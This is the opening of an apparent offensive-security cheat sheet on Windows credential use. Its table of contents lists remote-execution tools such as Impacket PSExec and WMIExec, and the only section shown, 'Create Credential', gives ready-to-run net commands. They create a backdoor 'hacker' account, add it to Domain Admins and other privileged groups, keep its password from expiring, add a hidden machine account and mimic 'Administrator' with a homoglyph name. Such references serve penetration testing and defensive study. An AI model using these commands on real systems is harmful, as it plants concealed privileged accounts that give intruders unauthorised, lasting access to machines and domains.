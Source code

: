 # Windows - Using credentials

## Summary

* [Get Credentials](#get-credentials)
    * [Create Credential](#create-credential)
    * [Looting Credentials](#looting-credentials)
    * [Guest Credential](#guest-credential)
    * [Retail Credential](#retail-credential)
    * [Sandbox Credential](#sandbox-credential)
* [NetExec](#netexec)
* [Impacket](#impacket)
    * [PSExec](#psexec)
    * [WMIExec](#wmiexec)
    * [SMBExec](#smbexec)
* [RDP Remote Desktop Protocol](#rdp-remote-desktop-protocol)
* [Powershell Remoting Protocol](#powershell-remoting-protocol)
    * [Powershell Credentials](#powershell-credentials)
    * [Powershell PSSESSION](#powershell-pssession)
    * [Powershell Secure String](#powershell-secure-string)
* [SSH Protocol](#ssh-protocol)
* [WinRM Protocol](#winrm-protocol)
* [WMI Protocol](#wmi-protocol)
* [Other Methods](#other-methods)
    * [PsExec - Sysinternal](#psexec---sysinternal)
    * [Mount a remote share](#mount-a-remote-share)
    * [Run as another user](#run-as-another-user)

## Get Credentials

### Create Credential

```powershell
net user hacker Hcker_12345678* /add /Y
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add # RDP access
net localgroup "Backup Operators" hacker /add # Full access to files
net group "Domain Admins" hacker /add /domain

# enable a domain user account
net user hacker /ACTIVE:YES /domain

# prevent users from changing their password
net user username /Passwordchg:No

# prevent the password to expire
net user hacker /Expires:Never

# create a machine account (not shown in net users)
net user /add evilbob$ evilpassword

# homoglyph Aԁmіnistratοr (different of Administrator)
Aԁmіnistratοr
```

